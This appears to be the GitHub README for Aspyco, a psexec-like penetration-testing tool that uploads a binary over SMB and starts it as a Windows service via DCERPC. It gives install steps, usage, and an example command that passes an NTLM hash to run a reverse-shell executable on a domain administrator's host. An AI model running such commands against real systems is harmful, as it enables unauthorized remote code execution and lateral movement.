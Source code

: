 # Aspyco

<div align="center">
  <br>
  <img src="https://img.shields.io/badge/Python-3.6+-informational">
  <br>
  <a href="https://twitter.com/intent/follow?screen_name=ProcessusT" title="Follow"><img src="https://img.shields.io/twitter/follow/ProcessusT?label=ProcessusT&style=social"></a>
  <br>
  <h1>
    Inject your own venom 💉
  </h1>
  <br><br>
</div>

> Aspyco is a python script that permits to upload a local binary through SMB on a remote host.<br />
> Then it remotely connects to svcctl named pipe through DCERPC to create and start the binary as a service.<br />
> <br />
> It's a psexec-like with custom execution !!
> <br />
<br>
<div align="center">
	<!--
<img src="future img" width="80%;">
	-->
</div>
<br>


## Changelog
<br />
V 1.0<br />
- Can inject custom payload on remote host

<br /><br />

## What da fuck is this ?
<br />
On Windows, RPC protocol permits to call remote functions.<br />
Remotely, you can connect on SMB named pipe to call functions with DCERPC protocol.<br />
In that way, you can upload a binary file through SMB and then call some functions<br />
to create a service to execute your payload.
<br />
<br />

## Installation
<br>
From Pypi :
<br><br>

```python
pip3 install aspyco
```

<br>
From sources :
<br><br>

```python
git clone https://github.com/Processus-Thief/Aspyco
cd Aspyco
python3 setup.py install
```

<br><br>


## Usage
<br>
Aspyco uses Impacket syntax :
<br><br>

```python
usage: aspyco.py [-h] [-hashes LMHASH:NTHASH] target payload

Upload and start your custom payloads remotely !

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  payload               Your custom binary file

options:
  -h, --help            show this help message and exit
  -hashes LMHASH:NTHASH	NTLM hashes, format is LMHASH:NTHASH
```

<br>
<br>

## Example

<br>

```python
aspyco -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 custom_reverse_shell.exe
```

<br>
<br>
